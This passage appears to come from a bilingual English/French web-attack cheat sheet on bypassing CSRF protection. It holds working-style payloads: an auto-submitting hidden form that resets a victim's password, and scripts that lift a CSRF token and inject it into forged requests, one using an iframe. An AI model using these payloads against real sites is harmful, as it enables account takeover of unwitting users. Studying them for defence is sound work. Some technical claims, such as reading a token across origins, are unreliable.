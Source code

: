    L'attaquant inclut également un formulaire caché dans la page web malveillante. Ce formulaire est soumis automatiquement lorsque la page se charge.

   ```html
   <form id="csrf-form" action="https://www.target-website.com/change-password" method="POST">
     <input type="hidden" name="new-password" value="attacker-password">
   </form>
   ```

3. The attacker uses JavaScript to extract the CSRF token from the target website's HTML source code and sets it as the value of a hidden input field in the malicious form.

   L'attaquant utilise JavaScript pour extraire le jeton CSRF du code source HTML du site cible et le définit comme valeur d'un champ de saisie caché dans le formulaire malveillant.

   ```html
   <script>
     var csrfToken = document.querySelector('meta[name="csrf-token"]').getAttribute('content');
     document.getElementById('csrf-form').insertAdjacentHTML('beforeend', '<input type="hidden" name="csrf-token" value="' + csrfToken + '">');
   </script>
   ```

4. When the victim visits the malicious webpage, the iframe loads the target website, and the hidden form is automatically submitted. Since the form contains the victim's stolen CSRF token, the target website processes the request as if it came from the victim.

   Lorsque la victime visite la page web malveillante, l'iframe charge le site cible et le formulaire caché est soumis automatiquement. Étant donné que le formulaire contient le jeton CSRF volé de la victime, le site cible traite la requête comme si elle provenait de la victime.

By using this technique, an attacker can trick the victim into unknowingly performing actions on the target website without their consent. It is important for web developers to implement proper CSRF protection mechanisms, such as using anti-CSRF tokens and validating the origin of requests, to prevent such attacks.

En utilisant cette technique, un attaquant peut tromper la victime pour qu'elle effectue des actions sur le site cible sans son consentement. Il est important que les développeurs web mettent en place des mécanismes de protection CSRF appropriés, tels que l'utilisation de jetons anti-CSRF et la validation de l'origine des requêtes, pour prévenir de telles attaques.
```markup
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script>
function read()
{
var name = 'admin2';
var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
document.writeln('</form>');
document.forms[0].submit.click();
}
</script>
```
### **Vol de jeton et envoi via 2 iframes**
